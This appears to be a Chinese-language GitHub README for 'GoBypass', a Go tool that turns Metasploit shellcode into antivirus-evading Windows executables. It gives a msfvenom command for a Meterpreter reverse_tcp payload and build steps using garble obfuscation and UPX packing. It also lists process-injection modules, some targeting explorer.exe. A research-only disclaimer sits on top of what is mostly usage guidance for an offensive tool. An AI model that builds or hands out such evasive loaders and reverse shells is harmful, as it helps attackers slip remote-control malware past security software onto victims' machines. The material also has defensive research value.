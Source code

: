 # GoBypass

### 免责声明

该工具仅用于安全研究，禁止使用工具发起非法攻击等违法行为，造成的后果使用者负责

### 介绍

`Golang`免杀马生成工具（该工具仅针对`Windows`系统）

不确定免杀效果如何，核心部分借鉴大佬的代码然后自己造轮子

![LOGO](/img/logo.png)

### 准备工作

在`kali`中使用`msfvenom`生成需要的`payload`（注意使用`-f c`参数）

示例：`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=ip lport=port -f c`

复制完整C语言格式的`shellcode`并写入当前目录的`shellcode.txt`

（无需过多处理，内部会对ShellCode进行编码）

### 生成免杀马

在生成免杀马之前请注意以下三件事

1. 确保安装`Golang`且环境变量中包含`go`否则无法编译
2. 请在当前目录执行先执行`go env -w GO111MODULE=on`然后`go mod download`命令下载依赖
3. 如果下载依赖过慢配置镜像`go env -w GOPROXY=https://mirrors.aliyun.com/goproxy`

一切就绪后就可以开始生成了

示例：

1. 使用`CreateThread`模块并删除编译信息：`go run main.go -m CreateThread -d`
2. 删除编译信息且用`garble`混淆源码后编译：`go run main.go -m CreateThread -d -g`
3. 编译后的可执行文件进行`upx`加壳：`go run main.go -m CreateThread -d -g -u`

可选参数如下

| 参数  |                参数说明                 |  参数类型  | 是否必须 |
|:---:|:-----------------------------------:|:------:|:----:|
| -m  |                使用模块                 | string |  是   |
| -s  |    shellcode文件（默认shellcode.txt）     | string |  否   |
| -d  |         使用ldflags -s -w进行编译         |  bool  |  否   |
| -r  |     使用竞态检测器-race进行编译（可能提高免杀效果）      |  bool  |  否   |
| -w  | 隐藏窗口ldflags -H windowsgui（可能降低免杀效果） |  bool  |  否   |
| -u  |           最终生成的exe进行UPX加壳           |  bool  |  否   |
| -g  |        使用garble进行编译（对源码进行混淆）        |  bool  |  否   |
| -h  |               查看帮助信息                |  bool  |  否   |

其中必须的模块参数如下

| 模块名                      | 简介                                              |
|:-------------------------|:------------------------------------------------|
| CreateFiber              | 利用Windows CreateFiber函数                         |
| CreateProcess            | 利用Windows CreateProcess函数在挂起状态下创建进程             |
| CreateRemoteThread       | 远程进程注入ShellCode（注入explorer.exe）                 | 
| CreateRemoteThreadNative | 和上一条区别在于使用更底层的方式（注入explorer.exe）                |
| CreateThread             | 利用Windows CreateThread函数                        |
| CreateThreadNative       | 和上一条区别在于使用更底层的方式                                |
| CryptProtectMemory       | 利用Windows dpapi.h CryptProtectMemory函数          |
| CryptUnprotectMemory     | 利用Windows dpapi.h CryptUnprotectMemory函数        |
| EarlyBird                | 注入的代码在进程主线程的入口点之前运行                             |
| EtwpCreateEtwThread      | 利用Windows EtwpCreateEtwThread函数在进程中执行ShellCode  |
| HeapAlloc                | 创建一个可供调用进程使用的堆并分配内存写入ShellCode                  |
| NtQueueApcThreadEx       | 在当前进程的当前线程中创建一个特殊用户APC来执行ShellCode              |
| RtlCreateUserThread      | 利用Windows RtlCreateUserThread函数（注入explorer.exe） |
| UuidFromStringA          | 利用Windows UuidFromStringA函数                     |

### 参考

尤其感谢`Safe6Sec`师傅的项目

- https://github.com/safe6Sec/GolangBypassAV
- https://github.com/Ne0nd0g/go-shellcode
